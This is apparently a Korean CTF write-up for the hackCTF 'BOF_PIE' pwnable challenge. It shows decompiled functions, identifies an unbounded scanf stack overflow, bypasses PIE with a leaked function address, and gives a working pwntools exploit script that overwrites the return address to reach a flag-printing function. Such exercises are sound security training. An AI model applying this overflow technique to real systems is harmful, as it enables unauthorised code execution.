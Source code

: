 ```yaml
---
layout: post
title:  "[hackCTF]BOF_PIE"
date:   2020-02-18
---
```


hackCTF pwnable 9번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  welcome();
  puts("Nah...");
  return 0;
}
```

## ida - welcome
```c
int welcome()
{
  char v1; // [esp+6h] [ebp-12h]

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  puts("Hello, Do you know j0n9hyun?");
  printf("j0n9hyun is %p\n", welcome);
  return _isoc99_scanf("%s", &v1);
}
```

## ida - j0n9hyun
```c
void j0n9hyun()
{
  char s; // [esp+4h] [ebp-34h]
  FILE * stream; // [esp+2Ch] [ebp-Ch]

  puts("ha-wi");
  stream = fopen("flag", "r");
  if ( stream )
  {
    fgets(&s, 40, stream);
    fclose(stream);
    puts(&s); // flag 출력
  }
  else
  {
    perror("flag");
  }
}
```
welcome함수에서 scanf가 v1에 저장할 때 ret을 덮으면 될 것 같다.<br><br>
![0901](https://drive.google.com/uc?id=1ZwKH2ER8FIFKTDodoJn65xziNKzyQNkg)  
PIE가 걸려 있고 welcome 함수의 주소를 제공하므로 j0n9hyun 함수의 정확한 주소는 "welcome 함수의 주소 + (j0n9hyun offset - welcome offset)"을 통해 구하자.  
<br>

정리해보자.<br><br>
목표 : welcome 함수의 ret을 덮어 j0n9hyun 함수 실행시키기<br>
취약점 : _isoc99_scanf("%s", &v1)<br><br><br>

***

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3008)

p.recvuntil("j0n9hyun is ")

welcome = int(p.recv(10), 16)

offset = 0x890-0x909

payload = "A"*0x16+p32(welcome+offset)

p.sendline(payload)

p.interactive()
```

## 결과
![0902](https://drive.google.com/uc?id=1P157mVwwxZkmBAeBM12fMtY27HRuqBN6)
